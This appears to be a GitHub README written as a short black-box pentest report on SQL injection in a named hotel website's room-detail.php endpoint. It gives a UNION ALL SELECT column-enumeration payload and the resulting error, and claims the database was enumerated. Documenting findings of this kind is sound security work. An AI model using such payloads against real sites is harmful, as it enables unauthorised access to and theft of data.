

> # SQL Injection


---
> ### Executive Summary
- Target: embryohotel.com
- Assessment Type: Blackbox web application pentesting
- Tester: Bao Tran

During a black-box penetration test, several vulnerabilities were identified that may impact confidentiality, integrity, and availability of the application.

---
## Scope

|Item| Description|
|---|---|
|Target | embryohotel.com|
|Testing Type| Black-box|
|Credentials Provided| None|
|Methodology| Manual + Tool|


### Tool used
- Burp Suite
- Wappalyzer
- SQLmap
- Search engine


### Finding Overview
|Vulnerability|Serverity|
|---|---|
|SQL Injection| High|

## Proof of Concept

### Affected Endpoint
```
GET /room-detail.php?id=1
```

### Payload used

```
UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -
```
### Respone

```
The used SELECT statements have a different number of columns
```

---

### Verify


Database successfully enumerated.

### Impact
- Data exfiltration
- Authentication bypass

### Risk Level
- Critical

# Repository Structure

```
PoC-SQLi/
│
├── PoC-SQLi.md
└── images/
    └── *.png

```
